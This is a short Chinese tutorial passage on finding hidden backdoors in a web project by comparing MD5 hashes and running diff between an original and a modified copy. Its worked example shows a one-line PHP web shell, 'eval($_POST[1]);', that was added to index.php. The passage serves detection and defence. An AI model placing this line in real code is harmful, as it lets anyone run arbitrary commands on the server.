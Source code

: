 ## 排查隐藏后门：

### 1\. 文件MD5校验：

```plain
def md5sum(file):
    m=hashlib.md5()
    if os.path.isfile(file):
        f=open(file,'rb')
        for line in f:
            m.update(line)
        f.close
    else:
        m.update(file)
    return (m.hexdigest())
```

对比前后文件哈希，找到修改的文件

### 2\. diff命令寻找差异文件

diff经常用来比较两个文本文件，所以可以通过一行命令快速找出两个项目文件的差异。

```plain
diff -c -a -r cms1 cms2
```

[![](assets/1705982098-f48c5a693b3560ff83bcc81f250b5eb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121101332-accaf2d6-b802-1.png)

-   `*** 1/index.php 2024-01-21 00:57:00.115969882 +0800`：表示原始文件（旧版本）的路径和修改时间。
-   `--- html/index.php 2024-01-21 00:56:00.243088661 +0800`：表示新版本文件的路径和修改时间。
-   `***************`：分隔符，标记接下来的内容是两版文件之间的不同之处。
-   `*** 1,4 ****`：表示在原始文件中从第1行到第4行的内容。
-   `--- 1,5 ----`：表示在新版本文件中从第1行到第5行的内容。

```plain
+ eval($_POST[1]);
这一行前带有加号 "+"，意味着这是在新版本html/index.php文件中新添加的一行代码
```
